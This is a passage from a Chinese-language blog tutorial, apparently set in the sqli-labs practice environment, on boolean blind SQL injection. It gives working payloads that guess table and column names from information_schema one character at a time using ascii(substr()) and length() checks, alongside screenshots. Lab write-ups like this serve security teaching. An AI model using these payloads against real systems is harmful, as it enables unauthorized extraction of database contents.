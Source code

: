 
<img src="https://i-blog.csdnimg.cn/blog_migrate/e6709021adf2d92132cd4cdf2b5af0d2.png" alt="" style="max-height:392px; box-sizing:content-box;" />


说明有 这个字符串长度为29

然后我们就可以开始一个一个爆破

```csharp
?id=1' and ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='security'),1,1))=101-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/38478e1fbdc248fe20028a2efdfcbd76.png" alt="" style="max-height:185px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/cd8cd5025c86855399d1724803255021.png" alt="" style="max-height:85px; box-sizing:content-box;" />


第二位

```csharp
?id=1' and ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='security'),2,1))=109-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/802bf450070fd7b7f831317555a38564.png" alt="" style="max-height:313px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/7a890f3682fbc9628ab5a57c2c6da321.png" alt="" style="max-height:74px; box-sizing:content-box;" />


一个一个爆破即可

### 字段名

```csharp
/?id=1' and length((select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema=database()))=20-- +
```

长度为20

开始猜

```csharp
?id=1' and ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema=database()),1,1))=105 -- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/5c00082786a404afec8e83b4dd8f9964.png" alt="" style="max-height:376px; box-sizing:content-box;" />


